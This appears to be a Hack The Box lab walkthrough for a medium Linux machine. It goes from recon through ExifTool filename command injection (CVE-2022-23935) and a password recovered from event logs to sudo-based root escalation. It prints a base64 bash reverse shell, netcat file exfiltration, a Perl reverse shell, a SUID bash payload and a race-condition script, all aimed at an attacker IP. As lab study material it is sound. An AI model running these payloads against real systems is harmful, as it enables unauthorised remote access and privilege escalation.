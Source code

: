 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB

---

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.197
nmap -p 22,80 -sCV 10.10.11.197
```
- Open Ports: 22 [SSH](SSH), 80 [HTTP](HTTP)
- Redirects to: `http://eforenzics.htb/`

### Hosts File
```
10.10.11.197 eforenzics.htb
```

### Feroxbuster
```bash
feroxbuster -u http://eforenzics.htb -x php,html
```
- Found: `/upload.php`, `/service.html`, various assets

---

## 💻 Shell as www-data

### CVE-2022-23935 - ExifTool Filename Injection
- ExifTool version: 12.37
- Exploit by setting filename to a command ending in `|`

### Example Payload:
```bash
filename: ping -c 1 10.10.14.6|
```
Confirm RCE using tcpdump or Burp.

### Reverse Shell
```bash
# Encode reverse shell to avoid special chars
echo 'bash -i &> /dev/tcp/10.10.14.6/443 0>&1' | base64 -w0

# Upload using filename set to: bash -c {echo,<base64>}|base64 -d|bash|
```
Receive with netcat:
```bash
nc -lnvp 443
```

### Shell Upgrade
```bash
script /dev/null -c bash
<Ctrl-Z>
stty raw -echo; fg
reset
```

---

## 👤 Shell as smorton

### Find Sensitive Files
```bash
find / -user smorton 2>/dev/null
```
Found: `/usr/local/investigation/Windows Event Logs for Analysis.msg`

### Crontab
```bash
crontab -l
```
Contains cleanup script, broken by immutable log file `analysed_log`.

### Exfiltrate `.msg`
```bash
nc -lnvp 443 > analysis.msg
cat analysis.msg | nc 10.10.14.6 443
```

### Analyze Email
```bash
msgconvert analysis.msg --mbox analysis.mbox
mutt -f analysis.mbox
# Save attachment: evtx-logs.zip
unzip evtx-logs.zip
```

### Convert EVTX to JSONL
```bash
evtx_dump security.evtx -o jsonl -t 1 -f security.json
```

### JQ Analysis
- Identify failed login with password in username field:
```bash
jq -r 'select(.Event.System.EventID==4625) | .Event.EventData.TargetUserName' security.json
```
Found password: `Def@ultf0r3nz!csPa$$`

### SSH as smorton
```bash
sshpass -p 'Def@ultf0r3nz!csPa$$' ssh smorton@eforenzics.htb
```

---

## 🧠 Shell as root

### Sudo Access
```bash
sudo -l
```
Can run: `/usr/bin/binary` as root

### Binary Behavior
- Downloads file from URL (arg1)
- Saves as `lDnxUysaQn` (arg2)
- Runs with: `perl ./lDnxUysaQn`
- Cleans up the file

### Option 1: Perl Reverse Shell
```perl
use Socket;
$i="10.10.14.6";$p=443;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))) {
    open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("sh -i");
}
```
Run:
```bash
sudo binary http://10.10.14.6/shell.pl lDnxUysaQn
```

### Option 2: Bash with Shebang
```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4777 /tmp/rootbash
```
Run:
```bash
sudo binary http://10.10.14.6/root.sh lDnxUysaQn
/tmp/rootbash -p
```

### Option 3: Race Condition
```bash
# One terminal:
while :; do if [ -f lDnxUysaQn ]; then mv -f lDnxUysaQn garbage; cp -f 0xdf.sh lDnxUysaQn; sleep 1; rm lDnxUysaQn; fi; done

# Second terminal:
sudo binary http://10.10.14.6/race lDnxUysaQn
```

---

## 🏁 Flags
- User: `fe330173************************`
- Root: `e9f2ff77************************`

---

## 🧩 Notable Tools Used
- [ExifTool](https://exiftool.org/)
- [evtx_dump](https://github.com/omerbenamram/evtx)
- [mutt](http://www.mutt.org/), [msgconvert](https://metacpan.org/pod/distribution/Email-Outlook-Message/bin/msgconvert)
- [jq](https://stedolan.github.io/jq/), [feroxbuster](https://github.com/epi052/feroxbuster)